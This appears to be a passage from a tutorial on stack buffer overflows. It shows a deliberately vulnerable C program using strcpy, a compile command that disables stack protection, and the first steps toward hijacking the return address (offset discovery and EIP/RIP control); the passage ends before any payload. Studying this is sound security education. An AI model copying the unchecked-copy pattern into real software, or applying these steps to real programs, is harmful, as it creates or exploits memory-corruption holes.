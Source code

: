 ## Practical Buffer Overflow Example

### Target: A Simple Vulnerable Program

```c
// vuln.c
#include <stdio.h>
#include <string.h>

void vulnerable_function(char *input) {
    char buffer[100];
    strcpy(buffer, input);
    printf("Input: %s\n", buffer);
}

int main(int argc, char *argv[]) {
    if (argc < 2) {
        printf("Usage: %s <input>\n", argv[0]);
        return 1;
    }
    vulnerable_function(argv[1]);
    return 0;
}
```

### Exploitation Steps

1. **Compile the vulnerable program**:
   ```bash
   gcc -fno-stack-protector -z execstack -o vuln vuln.c
   ```

2. **Determine the buffer size**:
   - Create a pattern and observe crash:
     ```bash
     ./vuln $(python -c 'print("A" * 100 + "B" * 4 + "C" * 4 + "D" * 4)')
     ```
   - Use GDB to find exact offset:
     ```
     gdb -q ./vuln
     run $(python -c 'print("Aa0Aa1Aa2Aa3...")') # Pattern from pattern_create.rb
     # Program crashes, check the return address (EIP/RIP)
     ```

3. **Find a suitable injection point**:
   - Confirm control of EIP/RIP:
     ```bash
     ./vuln $(python -c 'print("A" * 112 + "BBBB")')
     # If EIP/RIP = 0x42424242 ("BBBB"), we have control
     ```
